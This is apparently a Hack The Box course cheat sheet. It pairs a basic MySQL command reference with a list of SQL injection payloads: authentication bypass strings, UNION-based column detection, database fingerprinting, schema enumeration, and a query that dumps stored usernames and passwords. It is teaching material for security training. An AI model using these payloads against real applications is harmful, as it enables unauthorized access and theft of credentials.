 
# SQL
MySQL
Command	Description
General	
mysql -u root -h docker.hackthebox.eu -P 3306 -p	login to mysql database
SHOW DATABASES	List available databases
USE users	Switch to database
Tables	
CREATE TABLE logins (id INT, ...)	Add a new table
SHOW TABLES	List available tables in current database
DESCRIBE logins	Show table properties and columns
INSERT INTO table_name VALUES (value_1,..)	Add values to table
INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)	Add values to specific columns in a table
UPDATE table_name SET column1=newvalue1, ... WHERE <condition>	Update table values
Columns	
SELECT * FROM table_name	Show all columns in a table
SELECT column1, column2 FROM table_name	Show specific columns in a table
DROP TABLE logins	Delete a table
ALTER TABLE logins ADD newColumn INT	Add new column
ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn	Rename column
ALTER TABLE logins MODIFY oldColumn DATE	Change column datatype
ALTER TABLE logins DROP oldColumn	Delete column
Output	
SELECT * FROM logins ORDER BY column_1	Sort by column
SELECT * FROM logins ORDER BY column_1 DESC	Sort by column in descending order
SELECT * FROM logins ORDER BY column_1 DESC, id ASC	Sort by two-columns
SELECT * FROM logins LIMIT 2	Only show first two results
SELECT * FROM logins LIMIT 1, 2	Only show first two results starting from index 2
SELECT * FROM table_name WHERE <condition>	List results that meet a condition
SELECT * FROM logins WHERE username LIKE 'admin%'	List results where the name is similar to a given string
MySQL Operator Precedence
Division (/), Multiplication (*), and Modulus (%)
Addition (+) and Subtraction (-)
Comparison (=, >, <, <=, >=, !=, LIKE)
NOT (!)
AND (&&)
OR (||)
SQL Injection
Payload	Description
Auth Bypass	
admin' or '1'='1	Basic Auth Bypass
admin')-- -	Basic Auth Bypass With comments
Auth Bypass Payloads	
Union Injection	
' order by 1-- -	Detect number of columns using order by
cn' UNION select 1,2,3-- -	Detect number of columns using Union injection
cn' UNION select 1,@@version,3,4-- -	Basic Union injection
UNION select username, 2, 3, 4 from passwords-- -	Union injection for 4 columns
DB Enumeration	
SELECT @@version	Fingerprint MySQL with query output
SELECT SLEEP(5)	Fingerprint MySQL with no output
cn' UNION select 1,database(),2,3-- -	Current database name
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -	List all databases
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -	List all tables in a specific database
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -	List all columns in a specific table
cn' UNION select 1, username, password, 4 from dev.credentials-- -	Dump data from a table in another database